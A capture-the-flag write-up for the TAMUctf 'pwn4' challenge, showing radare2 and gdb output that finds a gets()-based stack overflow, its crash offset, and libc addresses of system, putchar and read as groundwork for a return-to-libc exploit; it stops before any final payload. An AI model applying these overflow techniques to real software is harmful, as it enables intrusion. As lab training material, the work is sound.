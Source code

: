 # write-up pwn4 (? p)

remote server found at `nc pwn.ctf.tamu.edu 4324`

----

The binary use NX security mechanism

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
````

Function `sym.main ()` has a function call to `sym.reduced_shell ()`

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function `sym.reduced_shell ()` contains a `sym.imp.gets ()` call, with `local_1ch` variable, renamed to `INPUT`

````python
[0x080485ef]> afvd
var local_1ch = 0xffe4111c  0x080487a5  .... (LOAD0) (/home/vagrant/ctf/tamu18/pwn4/pwn4) main program R X 'add esp, 0x10' 'pwn4'
````

````python
[0x080485ef]> afvn local_1ch INPUT
````

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````

````python
[0x08048641]> dmi
0x08048000 /home/vagrant/ctf/tamu18/pwn4/pwn4
0xf754b000 /lib/i386-linux-gnu/libc-2.19.so
0xf7706000 /lib/i386-linux-gnu/ld-2.19.so
````

````bash
(ctftools)vagrant@ctf-tools:~/ctf/tamu18/pwn4$ gdb -q /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/i386-linux-gnu/libc.so.6...(no debugging symbols found)...done.
(gdb) p system
$1 = {<text variable, no debug info>} 0x40310 <system>
(gdb) p putchar
$2 = {<text variable, no debug info>} 0x66610 <putchar>
(gdb) p read
$3 = {<text variable, no debug info>} 0xdd3e0 <read>
````

